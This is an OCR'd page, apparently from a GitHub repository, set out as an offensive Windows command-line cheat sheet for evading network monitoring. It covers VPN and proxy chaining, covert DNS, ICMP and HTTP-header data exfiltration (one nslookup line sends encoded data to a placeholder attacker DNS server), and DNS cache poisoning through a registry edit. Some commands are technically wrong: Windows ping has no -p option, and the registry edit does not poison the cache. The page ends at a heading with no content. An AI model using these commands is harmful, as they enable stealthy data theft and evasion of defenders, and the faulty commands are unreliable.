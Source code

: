 #### VPN Tunneling
Create an encrypted VPN tunnel to hide network traffic from monitoring systems.

- **VPN Connection using CMD (PPTP):**
  ```cmd
  rasdial "VPN" <username> <password> /phonebook:C:\path\to\vpn.pbk
  ```

#### Proxy Chaining
Route traffic through multiple proxies to evade detection.

- **Configure HTTP Proxy for cURL:**
  ```cmd
  curl -x http://<proxy_ip>:<proxy_port> http://<target_ip>
  ```

# Covert Channels

#### DNS Tunneling
Encapsulate data within DNS requests to evade detection.

- **Use `nslookup` for DNS Data Exfiltration:**
  ```cmd
  nslookup <encoded_data>.<domain> <attacker_dns_server>
  ```

#### ICMP Tunneling
Using ICMP (ping) requests to create a covert communication channel.

- **ICMP Data Exfiltration via Ping:**
  ```cmd
  ping <target_ip> -n 1 -l 32 -p <hex_data>
  ```

#### HTTP/HTTPS Traffic Obfuscation
Hide data in HTTP requests or headers to avoid detection.

- **Send data in HTTP Headers using cURL:**
  ```cmd
  curl -H "X-Data: <encoded_data>" http://<target_ip>
  ```

# DNS Evasion and Manipulation

#### DNS Cache Poisoning
Poison the local DNS cache to redirect legitimate traffic to malicious servers.

- **Modify DNS Cache Entries:**
  ```cmd
  reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Dnscache\Parameters /v CacheHashTable /t REG_SZ /d <malicious_ip> /f
  ```

#### Flush DNS Cache
Clear DNS cache to remove evidence or reset network state.
